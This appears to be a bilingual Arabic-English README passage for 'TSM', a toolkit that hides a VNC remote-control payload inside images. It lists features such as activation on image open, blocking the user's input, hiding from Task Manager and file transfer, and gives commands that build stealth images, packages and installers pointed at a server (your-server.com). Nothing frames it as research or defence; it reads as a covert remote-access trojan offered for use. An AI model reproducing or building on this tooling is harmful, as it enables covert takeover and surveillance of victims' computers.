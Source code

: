 ### الأدوات المساعدة | Utilities
- `TSM_Master_Launcher.py` - المشغل الرئيسي
- `TSM_SystemTest.py` - اختبارات النظام
- `TSM_Complete_Guide.md` - الدليل الكامل

## 🎯 الميزات الرئيسية | Key Features

### 1. VNC المخفي | Hidden VNC
- ✅ **تفعيل تلقائي** عند فتح الصورة
- ✅ **حجب إدخالات المستخدم** مؤقتاً
- ✅ **السيطرة الكاملة** على الشاشة
- ✅ **إخفاء من مدير المهام**

### 2. نقل الملفات الآمن | Secure File Transfer
- ✅ **TCP socket** موثوق
- ✅ **دعم متعدد العملاء** (حتى 10 عملاء)
- ✅ **فلترة أسماء الملفات** للأمان
- ✅ **حدود حجم الملفات** (100MB)

### 3. تشفير الصور | Image Steganography
- ✅ **LSB steganography** متقدم
- ✅ **ضغط البيانات** مع zlib
- ✅ **رؤوس سحرية** للتحقق
- ✅ **دعم PNG** بجودة عالية

### 4. التحكم في النظام | System Control
- ✅ **حجب الماوس ولوحة المفاتيح**
- ✅ **إخفاء جميع النوافذ**
- ✅ **إخفاء شريط المهام**
- ✅ **محاكاة الإدخالات**

## 🔧 الاستخدام المتقدم | Advanced Usage

### إنشاء صورة مخفية | Create Stealth Image
```bash
# إنشاء صورة مع VNC مخفي
python TSM_StealthMode.py create photo.jpg localhost 5001

# إنشاء حزمة نشر مخفية
python TSM_StealthMode.py package photo.jpg your-server.com 5001

# إنشاء مثبت مخفي
python TSM_StealthMode.py installer photo.jpg your-server.com 5001
```

### تشغيل VNC المحسن | Run Enhanced VNC
```bash
# تشغيل خادم VNC
python TSM_EnhancedVNC.py server

# تشغيل عميل VNC
python TSM_EnhancedVNC.py client
```
